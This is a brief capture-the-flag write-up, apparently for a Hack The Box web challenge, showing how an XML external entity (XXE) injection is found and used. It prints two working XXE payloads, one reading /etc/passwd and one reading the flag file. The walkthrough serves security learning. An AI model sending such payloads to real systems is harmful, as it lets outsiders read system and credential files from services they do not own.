


# Platform: HTB_CTF
# Category: Web
# Name: baby_WAFfles_order


We start on this page.



We have the source code to the web server so we are dealing with a White Box.

Looking thorugh the source code I found out I can modify the content type of the request to xml. 


This makes me think of an XXE so I'll try a simple payload. I'll use BurpSuite to modify the request.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<SimpleXMLElement>
<food>
&xxe;
</food>
</SimpleXMLElement>
```




It worked! Now I'll get the flag.

Payload
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag"> ]>
<SimpleXMLElement>
<food>
&xxe;
</food>
</SimpleXMLElement>
```


## We got the flag!